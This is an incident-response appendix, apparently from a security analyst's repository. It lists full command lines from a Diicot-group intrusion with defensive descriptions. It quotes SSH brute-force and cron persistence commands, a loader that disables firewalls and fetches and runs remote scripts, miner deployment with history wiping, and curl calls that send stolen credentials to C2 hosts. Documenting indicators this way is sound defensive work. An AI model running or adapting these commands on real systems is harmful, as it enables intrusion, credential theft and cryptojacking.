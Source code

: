 # Observed Commands

This document contains full versions of commands observed during the post-incident analysis.  
Each command is linked from the findings sections for clarity and deeper technical context.

---

# 📂 Initial Threat Hunt Observations

---

## 🧩 .bisis SSH Brute-Force Command
(id: `bisis-ssh-brute-force-command`)

```bash
/var/tmp/.update-logs/./.bisis ssh -o /var/tmp/.update-logs/data.json --userauth none --timeout 8
```

**Description:**  
Hidden binary `.bisis` executing SSH brute-force attempts against target systems.  
Uses a timeout of 8 seconds per connection attempt and references an external configuration file (`data.json`).

---

## 🧩 .bisis Cron Persistence Command
(id: `bisis-cron-command`)

```bash
bash -c "cd /var/tmp/.update-logs ; chmod +x /var/tmp/.update-logs/.bisis ; ulimit -n 999999 ; cat iplist | ./bisis -f 20 -t 8 -T 20 -S 10 -p 22 -l root -o /var/tmp/.update-logs/.history -O /var/tmp/.update-logs/.history -i eth0 -d /var/tmp/.update-logs/iplist2 ; ./x"
```

**Description:**  
Establishes persistence by scheduling `.bisis` brute-force execution via cron.  
Launches `.bisis` with customized parameters (threads, timeout, SSH port, username) and starts a second payload (`x`) after brute-forcing.

---

## 🧩 ./network Multi-Stage Crypto Mining Script
(id: `network-multistage-script`)

```bash
./network "rm -rf /var/tmp/Documents ; mkdir /var/tmp/Documents 2>&1 ; crontab -r ; chattr -iae ~/.ssh/authorized_keys >/dev/null 2>&1 ; cd /var/tmp ; chattr -iae /var/tmp/Documents/.diicot ; pkill Opera ; pkill cnrig ; pkill java ; killall java ; pkill xmrig ; killall cnrig ; killall xmrig ; cd /var/tmp/; mv /var/tmp/diicot /var/tmp/Documents/.diicot ; mv /var/tmp/kuak /var/tmp/Documents/kuak ; cd /var/tmp/Documents ; chmod +x .* ; /var/tmp/Documents/.diicot >/dev/null 2>&1 & disown ; history -c ; rm -rf .bash_history ~/.bash_history ; rm -rf /tmp/cache ; cd /tmp/ ; wget -q 85.31.47.99/.NzJjOTYwxx5/.balu || curl -O -s -L 85.31.47.99/.NzJjOTYwxx5/.balu ; mv .balu cache ; chmod +x cache ; ./cache >/dev/null 2>&1 & disown ; history -c ; rm -rf .bash_history ~/.bash_history"
```

**Description:**  
Complex script to eliminate competition, hide traces, deploy mining payloads, and set persistence through hidden directories.

---

## 🧩 ./retea Credential Harvester and Payload Dropper
(id: `retea-credential-dropper`)

```bash
./retea KOFVwMxV7k7XjP7fwXPY6Cmp16vf8EnL54650LjYb6WYBtuSs3Zd1Ncr3SrpvnAU Haceru
```

**Description:**  
Malicious script associated with the Diicot group; collects system info, builds credential dictionaries, wipes traces, downloads and executes secondary payloads.

---

## 🧩 ./UpzBUBnv Suspicious Binary Execution
(id: `upzbubnv-execution`)

```bash
./UpzBUBnv
```

**Description:**  
Hidden binary executed post-SSH connection; suspected malware based on behavior and association with SSH brute-force processes.

---

## 🧩 ./cache Crypto Miner Execution
(id: `cache-miner-execution`)

```bash
./cache
```

**Description:**  
Executable dropped from remote source, tied to crypto mining operations in the compromised network.

---

# 📂 MDE Dashboard Review Observations

---

## 🧩 curl Silent Data Exfiltration to C2
(id: `curl-silent-c2`)

```bash
curl --silent http://196.251.73.38:47/save-data?IP=45.64.186.20 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" -H "Accept-Language: en-US,en;q=0.9" -H "Cache-Control: max-age=0" -H "Connection: keep-alive" -H "Upgrade-Insecure-Requests: 1" --insecure
```

**Description:**  
Sends infected system's IP address to remote C2 server silently; uses browser headers to evade basic detection.

---

## 🧩 curl Downloading Malicious Payload (Black3)
(id: `curl-black3-download`)

```bash
curl -s --connect-timeout 15 digital.digitaldatainsights.org/.x/black3
```

**Description:**  
Silent download of suspected malicious payload (.x/black3) from known-malicious domain associated with Diicot group activity.

---

## 🧩 bash-based Firewall Disabling and Malware Loader
(id: `bash-firewall-disable-loader`)

```bash
bash -c "pkill firewalld -9; pkill iptables -9; ulimit -e 999999; ulimit -u 999999; ulimit -n 999999; cd /tmp || cd /run || cd /; rm -rf logsbins.sh; wget http://194.32.145.243/logsbins.sh; chmod 777 logsbins.sh; sh logsbins.sh; curl -o logsbins.sh http://194.32.145.243/logsbins.sh; chmod 777 logsbins.sh; sh logsbins.sh; tftp 194.32.145.243 -c get logstftp1.sh; chmod 777 logstftp1.sh; sh logstftp1.sh; tftp -r logstftp2.sh -g 194.32.145.243; chmod 777 logstftp2.sh; sh logstftp2.sh; rm -rf logsbins.sh logstftp1.sh logstftp2.sh; rm -rf *; cd; rm -rf .bash_history; history -c"
```

**Description:**  
Full disablement of firewall protections, retrieval and execution of multiple payloads, heavy use of log wiping to cover tracks.

---

## 🧩 curl Credential and System Info Exfiltration
(id: `curl-credential-exfil`)

```bash
curl --silent "http://87.120.116.35:8000/save-data?IP=54.177.195.166&USER=user1&PASS=*****&PORT=22&CPUS=4&HOSTN=awk: command not found &ARCHN=awk: command not found &KERN=awk: command not found &GPU=No" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" -H "Accept-Language: en-US,en;q=0.9" -H "Cache-Control: max-age=0" -H "Connection: keep-alive" -H "Upgrade-Insecure-Requests: 1" --insecure
```

**Description:**  
Exfiltrates host metadata, usernames, credentials, and hardware details to remote malicious server over insecure connection.

---

# 📜 Notes

- Commands above were collected from both manual threat hunting and MDE incident dashboard review.
- Diicot threat group indicators dominate most stages of the attack lifecycle.
- Each script or command had a distinct role: reconnaissance, brute-force, persistence, cryptomining, or exfiltration.

